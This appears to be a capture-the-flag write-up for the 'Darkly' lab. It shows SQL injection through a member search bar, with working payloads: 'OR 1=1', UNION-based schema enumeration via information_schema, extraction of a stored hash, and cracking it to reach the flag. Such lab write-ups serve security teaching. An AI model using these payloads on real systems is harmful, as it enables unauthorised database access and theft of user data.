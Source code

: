 # Improper Neutralization of Special Elements used in an SQL Command ('SQL Injection')

## Description

SQL Injection occurs when a web application constructs an SQL query using user-controlled inputs without properly sanitizing special characters. Attackers can manipulate the SQL syntax to execute arbitrary commands, retrieve sensitive information, or modify the database.

### Evidence of Vulnerability

In the `Darkly` application, the search bar on the `membre` page is vulnerable to SQL injection. Entering `'` in the search bar results in an SQL error, revealing the vulnerability. 

The query appears to retrieve a user's first and last name based on their ID:
```sql
SELECT first_name, surname FROM users WHERE user_id = 1
```

By injecting 1` OR 1=1 --`, attackers can retrieve all user records:
```sql
SELECT first_name, surname FROM users WHERE user_id = 1 OR 1=1 --
```
This reveals all users, including one named Flag with the last name GetThe. Further exploration using SQL injection techniques, such as UNION attacks, allows enumeration of the database schema and the extraction of sensitive information.

### Exploitation Steps

1. Identify Vulnerable Endpoint:
- Input `'` in the search bar to confirm the SQL injection vulnerability.

2. Dump All Users:
- Inject `1 OR 1=1 --` to retrieve all users.

3. Perform UNION Attack:
- Determine the number of columns:
```sql
1 UNION SELECT NULL,NULL--
```
- Enumerate database tables:
```sql
1 UNION SELECT table_name,NULL FROM information_schema.tables--
```
- Enumerate columns in the users table:
```sql
1 UNION SELECT COLUMN_NAME,NULL FROM information_schema.columns WHERE table_name = 0x7573657273
```
- Retrieve sensitive columns for the Flag user:
```sql
1 UNION SELECT Commentaire,countersign FROM users WHERE first_name = 0x466c6167 --
```
4. Crack the Hash:
- Use CrackStation to decode the MD5 hash in the countersign column.
- Hash the resulting string (fortytwo) with SHA-256 to retrieve the flag:
```bash
echo -n "fortytwo" | sha256sum
```